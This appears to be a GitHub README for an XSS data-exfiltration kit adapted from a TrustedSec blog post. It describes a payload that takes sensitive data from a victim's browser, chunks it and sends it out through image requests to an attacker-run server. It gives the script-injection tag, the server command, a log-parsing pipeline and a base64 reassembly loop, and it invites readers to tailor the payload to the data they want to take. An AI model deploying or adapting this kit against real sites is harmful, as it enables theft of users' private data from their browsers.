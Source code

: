 # XSS-Data-Exfil-Kit
XSS Data Exfiltration Tool
Edit of code this post -  https://www.trustedsec.com/blog/simple-data-exfiltration-through-xss/

This code demonstrates data exfiltration through an XSS (Cross-Site Scripting) vulnerability. The XSS payload is designed to extract sensitive data from the victim's web browser and divide it into manageable chunks. These chunks are then sent out as image requests, with the data embedded in the image filenames. The process also includes example commands and a Python script for reconstructing the original data.

For a detailed walkthrough with screenshots, please refer to our blog post at this link: Simple Data Exfiltration Through XSS.

To make the payload target specific sensitive data accessible to the victim, you can customize the "exfilPayload.js" file.

Here are the steps involved:

<script src="http://127.0.0.1/exfilPayload.js"></script>

Start a Python HTTP server in the directory where "exfilPayload.js" is located:

bash
python -m SimpleHTTPServer 80

"exfilPayload.js" will send the data chunks to the same server.

Collect these requests into a text file and clean them up:

bash
grep '/exfil/' exfilledData.txt | awk -F'/exfil/' '{print $2}' | awk -F'/' '{print $1 " " $2}' | awk -F'.jpg' '{print $1}' | while read i; do echo $i ; done > exfilledDataCleaned.txt


Use the provided Python script to reconstruct the original data.

Finally, assemble the data chunks together using:

bash    
for file in ./{0..225}.chunk; do cat $file | base64 -d; done > restoredSuperSecretData.html

                                        


                                               
